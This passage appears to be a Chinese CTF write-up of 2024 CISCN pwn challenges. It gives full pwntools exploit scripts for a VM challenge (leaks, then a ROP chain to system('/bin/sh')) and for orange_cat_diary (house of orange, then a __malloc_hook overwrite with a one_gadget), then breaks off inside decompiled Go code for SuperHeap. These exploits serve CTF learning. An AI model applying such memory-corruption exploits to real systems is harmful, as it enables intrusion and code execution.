

泄露 database 的地址

泄露 environ 地址


获取 environ 中的栈地址


获取对应的返回地址

泄露 PIE 地址

获取 PIE 基址

控制 database 在 vm 上的位置

将栈上保存返回地址的位置，写入 vm 结构体中的 database 所在处

写入 ret

写入 pop rdi ret

写入 /bin/sh

写入 system 地址

当没有指令可执行时，vm::run 退出，随后执行之前写入的 ROP；末尾添加的 ret 用于执行 system 时的对齐

结果

## 参考利用脚本

```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'


def inst():
    return 1

def mem():
    return 3

def reg():
    return 2

def args(flag1,flag2,arg1,arg2):
    var=(flag1|(flag2<<2)).to_bytes(1,'little')+arg1.to_bytes(1,'little')
    if flag2==1:
        return var+p64(arg2)
    else:
        return var+arg2.to_bytes(1,'little')

def arg(flag,arg):
    var=flag.to_bytes(1,'little')
    if flag==1:
        return var+p64(arg)
    else:
        return var+arg.to_bytes(1,'little')

def add(arg):
    return b'\x01'+arg

def sub(arg):
    return b'\x02'+arg

def rshift(arg):
    return b'\x03'+arg

def lshift(arg):
    return b'\x04'+arg

def mov(arg):
    return b'\x05'+arg

def andd(arg):
    return b'\x06'+arg

def orr(arg):
    return b'\x07'+arg

def xor(arg):
    return b'\x08'+arg

def pop(arg):
    return b'\x09'+arg

def push(arg):
    return b'\x0a'+arg

def nop():
    return b'\x0b'


p=process('./pwn')
libc=ELF('./libc.so.6')

# libcbase
code=mov(args(reg(),inst(),0,0x27ff8))
code+=nop()
code+=mov(args(reg(),mem(),1,0))
code+=nop()
code+=sub(args(reg(),inst(),1,0x459a0))
code+=nop()

# gap
code+=mov(args(reg(),inst(),0,0))
code+=nop()
code+=nop()

# membase
code+=mov(args(reg(),inst(),0,0x28020))
code+=nop()
code+=mov(args(reg(),mem(),2,0))
code+=nop()
code+=sub(args(reg(),inst(),2,0xc040))
code+=nop()

# gap
code+=mov(args(reg(),inst(),0,0))
code+=nop()
code+=nop()

# save libcbase membase
code+=mov(args(mem(),reg(),0,1))
code+=nop()
code+=mov(args(reg(),inst(),0,8))
code+=nop()
code+=mov(args(mem(),reg(),0,2))
code+=nop()

# stack cal
code+=mov(args(reg(),inst(),0,0x222200))
code+=nop()
code+=add(args(reg(),reg(),1,0))
code+=nop()
code+=sub(args(reg(),reg(),1,2))
code+=nop()

# gap
code+=mov(args(reg(),inst(),0,0))
code+=nop()
code+=nop()

# stack
code+=mov(args(reg(),reg(),0,1))
code+=nop()
code+=mov(args(reg(),mem(),1,0))
code+=nop()
code+=sub(args(reg(),inst(),1,0x130))
code+=nop()

# gap
code+=mov(args(reg(),inst(),0,0))
code+=nop()
code+=nop()

# pie
code+=mov(args(reg(),reg(),3,1))
code+=nop()
code+=sub(args(reg(),reg(),3,2))
code+=nop()
code+=mov(args(reg(),reg(),0,3))
code+=nop()
code+=mov(args(reg(),mem(),3,0))
code+=nop()
code+=sub(args(reg(),inst(),3,0x1ddd))
code+=nop()
code+=add(args(reg(),inst(),3,0x4200-8))
code+=nop()

# gap
code+=mov(args(reg(),inst(),0,0))
code+=nop()
code+=nop()

# change membase
code+=sub(args(reg(),reg(),3,2))
code+=nop()
code+=mov(args(reg(),mem(),2,0))
code+=nop()
code+=mov(args(reg(),reg(),0,3))
code+=nop()
code+=mov(args(mem(),reg(),0,1))
code+=nop()

# gap
code+=mov(args(reg(),inst(),3,0))
code+=nop()
code+=nop()

rdi=0x2a3e5
ret=0x29139
bin_sh=next(libc.search(b'/bin/sh\x00'))
system=libc.symbols['system']
# rop
code+=mov(args(reg(),reg(),1,2))
code+=nop()
code+=add(args(reg(),inst(),1,ret))
code+=nop()
code+=mov(args(reg(),inst(),3,0))
code+=nop()
code+=mov(args(mem(),reg(),3,1))
code+=nop()

code+=mov(args(reg(),reg(),1,2))
code+=nop()
code+=add(args(reg(),inst(),1,rdi))
code+=nop()
code+=mov(args(reg(),inst(),3,8))
code+=nop()
code+=mov(args(mem(),reg(),3,1))
code+=nop()

code+=mov(args(reg(),reg(),1,2))
code+=nop()
code+=add(args(reg(),inst(),1,bin_sh))
code+=nop()
code+=mov(args(reg(),inst(),3,0x10))
code+=nop()
code+=mov(args(mem(),reg(),3,1))
code+=nop()

code+=mov(args(reg(),reg(),1,2))
code+=nop()
code+=add(args(reg(),inst(),1,system))
code+=nop()
code+=mov(args(reg(),inst(),3,0x18))
code+=nop()
code+=mov(args(mem(),reg(),3,1))
code+=nop()

# end
code+=nop()
code+=nop()

#gdb.attach(p)
p.sendafter(b'plz input your vm-code\n',code)
p.interactive()

```


# 2024 cicsn orange_cat_diary


## 漏洞
一次 free 和一次 show；可以比创建时定义的长度多修改最多八个字节。存在 free 后 edit 和 free 后 show。题目提示了 orange，
## 思路
1. 利用 house of orange 泄露堆地址和 libc 地址
2. 然后利用 free 后 edit 直接修改 fd，进而控制并获得目标地址 malloc_hook，把 onegadget 写入 malloc_hook

这里 show 的输出不会被零字节截断，所以可以一次性泄露堆地址和 libc 地址
```c
__int64 show()
{
  if ( show_1 > 0 )
  {
    fwrite(ptr, 1uLL, length, stdout);
    --show_1;
  }
  puts("Diary view successful.");
  return 0LL;
}
```

## 检查
libc2.23 不会检查从 fastbin 取出的 chunk 的 size 是否对齐——即使是 0x7f 也能拿到里面的 chunk
```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

if (__glibc_likely (victim != NULL))
	    {
	      size_t victim_idx = fastbin_index (chunksize (victim));
	      if (__builtin_expect (victim_idx != idx, 0))
		malloc_printerr ("malloc(): memory corruption (fast)");
	      check_remalloced_chunk (av, victim, nb);
	         void *p = chunk2mem (victim);
	      alloc_perturb (p, bytes);
	      return p;
	    }
```

## exp
```python
from pwn import *
p=process("./pwn")
libc=ELF("./libc-2.23.so")
context(log_level="debug")

def add(length,content):
    p.sendlineafter(b"Please input your choice:",b"1")
    p.sendafter(b"content:",str(length))
    p.sendafter(b"Please enter the diary content:\n",content)

def dele():
    p.sendlineafter(b"Please input your choice:",b"3")
def edit(length,content):
    p.sendlineafter(b"Please input your choice:",b"4")
    p.sendafter(b"Please input the length of the diary content:",str(length))
    p.sendafter(b"Please enter the diary content:\n",content)
def show():
    p.sendlineafter(b"Please input your choice:",b"2")
  

p.sendlineafter(b"Please tell me your name.\n",b"llk")


add(0x18,"12345678")
edit(0x20,0x18*b"1"+p64(0xfe1))

add(0xff0,"12345678")
add(0x60,"12345678")# 泄露堆地址heap

show()
p.recv(8)
libc.address=(int.from_bytes(p.recv(8),byteorder="little"))-1632-0x1d3c80-0x1f0ea8
print("libc",hex(libc.address))
heap=int.from_bytes(p.recv(8),byteorder="little")
print("heap",hex(heap))

print("malloc_hook",hex(libc.sym['__malloc_hook']))
add(0x60,"12345678")
dele()
payload = p64(libc.sym['__malloc_hook']-0x23)
edit(0x60,payload)


add(0x60,"12345678")
add(0x60,b'a' * 0x13 + p64(libc.address + 0xf03a4))
gdb.attach(p)
pause()
p.sendlineafter(b"Please input your choice:",b"1")
p.sendafter(b"content:",str(0x60))
#最后发生长度就行，不然还是按照add的话会因为after阻塞
p.interactive()

```


# 2024 cicsn SuperHeap


## 参考资料
[https://hakuya.work/post/7](https://hakuya.work/post/7)
[https://akaieurus.github.io/2024/05/20/2024%E5%9B%BD%E8%B5%9B%E5%88%9D%E8%B5%9Bpwn-wp/#SuperHeap](https://akaieurus.github.io/2024/05/20/2024%E5%9B%BD%E8%B5%9B%E5%88%9D%E8%B5%9Bpwn-wp/#SuperHeap)
[https://blog.csdn.net/m0_63437215/article/details/127914567](https://blog.csdn.net/m0_63437215/article/details/127914567)

## 沙箱


## Protobuf 展示
用工具提取出来
## 逆向分析
真的很难逆。我通过字符串定位到了相关函数；这里用了一个 map 把 int 映射到函数。正常逆太难了，所以我就靠字符串定位

### buy_book

```cpp
// main.WEB5SF
// local variable allocation has failed, the output may be wrong!
__int64 __golang buy_book_(
        __int64 a1,
        __int64 a2,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        int a7,
        int a8,
        int a9)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  while ( (unsigned __int64)&publishdata_ptr <= *(_QWORD *)(v9 + 16) )
    a1 = runtime_morestack_noctxt(a1);
  idx_string[0] = &RTYPE_string;
  idx_string[1] = &index_string;
  v10 = qword_41A3E8;
  v11 = fmt_Fprint(
          (unsigned int)io_write,
          qword_41A3E8,
          (unsigned int)idx_string,
          1,
          1,
          (unsigned int)&index_string,
          a7,
          a8,
          a9,
          v79);
  idx = input_number(v11, v10, v12, 1, 1);
  if ( idx >= 0x1C || (v14 = book_chunk_array[idx]) != 0 )
  {
    Invalid[0] = &RTYPE_string;
    Invalid[1] = &off_2BBBD0;
    return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)Invalid, 1, 1, v14, v15, v16, v17, v80);
  }
  else
  {
    index = idx;
    Special_Data[0] = &RTYPE_string;
    Special_Data[1] = &off_2BBBE0;
    v19 = qword_41A3E8;
    v20 = fmt_Fprint(
            (unsigned int)io_write,
            qword_41A3E8,
            (unsigned int)Special_Data,
            1,
            1,
            (unsigned int)&off_2BBBE0,
            v15,
            v16,
            v17,
            v80);
    specail_data = (char *)read_choice(v20);
    specail_data_string.len = v19;
    specail_data_string.ptr = specail_data;
    v116 = encoding_base32__ptr_Encoding_DecodeString(qword_41A120, specail_data_string);// base32解码输入的
    if ( v116.1.tab )
    {
      Error_decoding[0] = &RTYPE_string;
      Error_decoding[1] = &Error__decoding;
      return fmt_Fprintln(
               (unsigned int)io_write,
               qword_41A3E8,
               (unsigned int)Error_decoding,
               1,
               1,
               v22,
               v23,
               v24,
               v25,
               v81);
    }
    else
    {
      ptr = (int)v116.0.ptr;
      cap = v116.0.cap;
      input_mypackage_CTFBook = (mypackage_CTFBook *)runtime_newobject(
                                                       &RTYPE_mypackage_CTFBook,
                                                       v116.0.len,
                                                       v116.0.cap,
                                                       0,
                                                       (int)v116.1.data,
                                                       v22,
                                                       v23,
                                                       v24,
                                                       v25);
      if ( github_com_golang_protobuf_proto_Unmarshal(// 使用protobuf解码
             ptr,
             v116.0.len,
             cap,
             (unsigned int)off_2BD1C8,
             (_DWORD)input_mypackage_CTFBook,
             v26,
             v27,
             v28,
             v29,
             v81) )
      {
        v105[0] = &RTYPE_string;
        v105[1] = &Error__decoding;
        return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)v105, 1, 1, v30, v31, v32, v33, v82);
      }
      else
